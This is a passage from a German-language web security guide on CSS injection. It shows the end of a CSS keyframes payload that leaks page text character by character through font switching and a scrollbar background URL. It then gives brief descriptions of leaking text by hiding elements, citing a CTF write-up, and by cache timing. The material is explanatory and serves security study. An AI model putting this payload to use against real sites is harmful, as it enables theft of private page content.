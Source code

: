 ```css
81% { font-family: rest; }
85% { font-family: has_Q, rest; --leak: url(?q); }
86% { font-family: rest; }
90% { font-family: has_R, rest; --leak: url(?r); }
91% { font-family: rest; }
95% { font-family: has_S, rest; --leak: url(?s); }
96% { font-family: rest; }
}

/* increase width char by char, i.e. add new char to prefix */
@keyframes loop {
0% { width: 0px }
1% { width: 20px }
2% { width: 40px }
3% { width: 60px }
4% { width: 80px }
4% { width: 100px }
5% { width: 120px }
6% { width: 140px }
7% { width: 0px }
}

div::-webkit-scrollbar {
background: blue;
}

/* side-channel */
div::-webkit-scrollbar:vertical {
background: blue var(--leak);
}
```
### Textnode-Exfiltration (III): Leaking des Zeichensatzes mit einer Standard-Schriftart durch Verstecken von Elementen (ohne externe Assets) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>

**Referenz:** Dies wird als [eine erfolglose Lösung in diesem Bericht erwähnt](https://blog.huli.tw/2022/06/14/en/justctf-2022-writeup/#ninja1-solves)

Dieser Fall ist sehr ähnlich zum vorherigen, jedoch besteht in diesem Fall das Ziel darin, spezifische **Zeichen größer als andere zu machen, um etwas** wie einen Button zu verstecken, der nicht vom Bot gedrückt werden soll, oder ein Bild, das nicht geladen wird. So könnten wir die Aktion (oder das Fehlen der Aktion) messen und wissen, ob ein spezifisches Zeichen im Text vorhanden ist.

### Textnode-Exfiltration (III): Leaking des Zeichensatzes durch Cache-Timing (ohne externe Assets) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>
